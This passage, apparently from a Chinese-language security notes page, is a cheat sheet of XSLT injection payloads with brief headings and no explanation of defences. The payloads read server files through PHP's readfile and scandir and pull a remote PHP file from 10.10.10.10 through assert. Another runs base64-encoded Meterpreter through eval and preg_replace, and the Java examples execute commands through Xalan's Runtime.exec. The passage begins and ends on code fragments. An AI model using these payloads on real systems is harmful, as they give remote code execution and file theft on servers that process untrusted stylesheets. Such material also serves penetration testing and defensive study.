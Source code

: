```xml
</xsl:stylesheet>
```
  ##### 使用 PHP wrapper执行远程代码
	执行函数readfile
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```
	执行函数scandir
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
        </xsl:template>
</xsl:stylesheet>
```
	使用assert执行远程php文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
		<xsl:variable name="payload">
			include("http://10.10.10.10/test.php")
		</xsl:variable>
		<xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```
	执行 PHP Meterpreter
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:variable name="eval">
                        eval(base64_decode('Base64-encoded Meterpreter code'))
                </xsl:variable>
                <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
        </xsl:template>
</xsl:stylesheet>
```
	使用 Java 远程执行代码
```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```
```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
```